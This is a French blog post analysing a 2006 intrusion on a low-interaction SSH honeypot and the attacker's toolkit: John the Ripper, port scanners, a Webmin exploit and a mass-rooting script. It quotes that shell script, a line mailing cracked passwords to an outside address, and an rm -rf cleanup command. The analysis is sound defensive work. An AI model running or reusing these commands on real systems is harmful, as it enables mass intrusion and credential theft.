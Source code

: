 ```yaml
---
title: "Intrusion du 24 novembre 2006"
tags: [honeypot]
---
```


## Exploit kit

Pour plus d'information sur [Kojoney](http://kojoney.sourceforge.net/), un honeypot ssh, reportez-vous à [un de mes précédents billets]({% link _posts/2011-01-06-Revue-du-honeypot-Kojoney.md%}).  

Une attaque brute force contre les comptes ssh a été lancée le 23 nomvembre aux alentours de 16 heures. La machine attaquante est localisée en Norvège. Le FAI est [telenor.no](http://www.telenor.no/).  

L'attaque est plutôt efficace et prend fin à 16h07 après avoir trouvé différents passwords par défaut (`ftp`, `mysql`, `guest`, `admin`).  

Le 24 à minuit et 43 minutes, le pirate se connecte en utilisant le compte `ftp`. Son adresse IP le situe en Roumanie (FAI [Romtelecom](http://www.romtelecom.ro/)). Aucune autre visite n'a eu lieu entre la fin du brute force et son arrivée.  

Plusieurs commandes sont lancées afin d'obtenir plus d'informations sur la machine :  

```bash
uname -a
hostname
cat /proc/cpuinfo
```

Le visiteur vérifie aussi brievement la présence des commandes `tar` et `wget`.  

Il va alors tenter à plusieurs reprises de télécharger une archive gzip ([conf.tar.gz](http://dary.ro/conf.tar.gz)) mais qui échoue comme le honeypot est à *"faible interraction"* (aucune commande n'est réellement exécutée, tout est simulé)  

Les fichiers présents dans cette archive sont (avec le résultat de la commande file) :  

- **all.chr**: data  

- **alnum.chr**: data  

- **alpha.chr**: data  

- auto: Bourne-Again shell script text executable  

- clean: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- **digits.chr**: data  

- do: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), not stripped  

- ex.pl: perl script text executable  

- **john**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, dynamically linked (uses shared libs), stripped  

- **john.conf**: ASCII English text  

- **lanman.chr**: data  

- **mailer**: Bourne shell script text executable  

- o: Bourne-Again shell script text executable  

- **password.lst**: ASCII English text  

- pscan2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), not stripped  

- scan: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- ss: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- try: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.0.0, statically linked, stripped  

- **unafs**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped  

- **unique**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped  

- **unshadow**: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped

## Password collector

Les noms de fichiers que j'ai mis en gras devraient être familier à tout ceux qui ont déjà utilisé [John the Ripper](http://www.openwall.com/john/) (un casseur de mot de passe local). La personne qui a généré l'archive n'a visiblement pas fait le tri (`unafs`, `mailer`, `lanman.chr` et `unique` n'auront probablement pas d'utilité pour l'attaquant)  

Le script `o` lance john sur plusieurs fichiers (non présents) avec l'option `-show` pour afficher les password cassés. Le fichier a sans doute été mis par erreur ou laissé par oubli.  
Le script `auto` demande un début d'adresse IP (par exemple `192.168.0`) et un nom de fichier. Il génère alors une liste d'ips à l'aide d'une boucle (0 -> 255)  

Le script perl [ex.pl](http://www.milw0rm.com/exploits/2017) est un exploit pour *Webmin* qui date de juillet 2006.  

Les binaires sont assez énigmatiques. `clean` semble plus ou moins crypté pour cacher son rôle (un `strings` ne renvoit rien d'intéressant).  

En réalité il lance juste la commande suivante : `rm -rf pass pass2 pass3 john.pot restore john.log ips bios.txt *.pscan.10* wget-log* spart* core*`  

On peut se demander l'utilité de passer par un fichier ELF alors qu'un script shell aurait été plus rapide et surtout plus portable...  

`pscan2` est un scanneur de port horizontal (même port, ips différentes) assez simple qui enregistre les résultats dans un fichier. J'ai pu retrouver [le fichier source sur Internet](http://members.xoom.virgilio.it/zikkolo/federico/pscan.c).

## Washington est dans la place ! Tout baigne !

`ss` est pour le moins surprenant. Là encore le programme dissimule son contenu. En fait il s'agit d'un scanneur de port horizontal tout comme `pscan2` mais bien plus évolué. Il est linké statiquement avec la librairie `pcap` et envoit des paquets SYN au lieu d'établir des connexions complètes. Le traffic est sniffé afin de détecter quelles machines répondent (et donc savoir celles qui ont un port ouvert).  

Ce programme serait tout à fait lambda dans la trousse d'un pirate informatique si les machines qu'il scanne par défaut n'étaient pas aussi *spéciales*.  

Il semble avoir un intérêt tout particulier pour les sites gouvernementaux et militaires ainsi que les centres de recherches. Ainsi il envoit des paquets sur un bon nombre de *.mil*, de *.gov* (et *.gov.cctld*), des *.edu* (comme le célèbre MIT) etc etc.  

Au moins on ne peut pas lui reprocher de faire de la discrimination : Washington, Tel Aviv... et même du côté du soleil levant... tout y passe !  

Les résultats sont enregistrés dans un fichier `bios.txt`.

Tout comme `clean`, `scan` est juste un script shell passé en binaire pour rendre plus difficile à comprendre son fonctionnement.

## Scan, crack, leak, repeat

Après avoir définit un code couleur, il lance les commandes suivantes :  

```bash
if [ $# != 1 ]; then
        echo se da: $0 <b class>
        exit;
fi

echo ${YEL}#@@@@@@@@@@@@@@@${BLU}MASSROOTER${YEL}@@@@@@@@@@@@@@@@@@#
echo ${YEL}############${BLU}By b-u-f-u ,lego & dary ${YEL}#########
echo ${YEL}###############${RED}PRIVATE SHIT${YEL}##################
echo ${RES}

./pscan2 $1 20000
sleep 10
cat $1.pscan.20000 |sort |uniq > ips
./do ips
rm -rf ips
echo ${DGRN}#BAFTA!....
echo ${RES}
```

Ce script utilise `pscan2` pour trouver des machines ayant un port Webmin ouvert (20000) puis pour chaque machine correspondant à ces critères il appelle le programme `do`.

Là vous vous demandez *mais à quoi sert le binaire do ?*  

Et bien c'est la partie qui automatise l'attaque. Pour chaque adresse IP trouvée dans le fichier passé en paramètre (ips dans ce cas), l'exploit pour Webmin est lancé et va tenter d'accèder au fichier `/etc/shadow` du serveur. Différentes tentatives sont faites afin de couvrir différents systèmes (par exemple `master.passwd` pour BSD)  

Les résultats obtenus sont placés dans les fichiers `pass`, `pass2`, `pass3`.  

Pour chacun de ces fichiers `John the Ripper` est lancé en tâche de fond afin de casser les mots de passe. Le résultat final ce sont les éventuels passwords trouvés mis dans un fichier `vuln` et envoyés sur une boîte mail :  

```bash
cat vuln | mail -s woot woot $1 conf.team@gmail.com
```

La commande `try` semble faire la même chose que `do`.

L'intrusion en elle même n'était pas exceptionnelle mais les binaires étaient pour le moins intéressants...  

L'étude a été faite dans un environnement chrooté avec des outils comme strace, ltrace et [SoapBox](http://dag.wieers.com/home-made/soapbox/)

*Published January 08 2011 at 13:54*
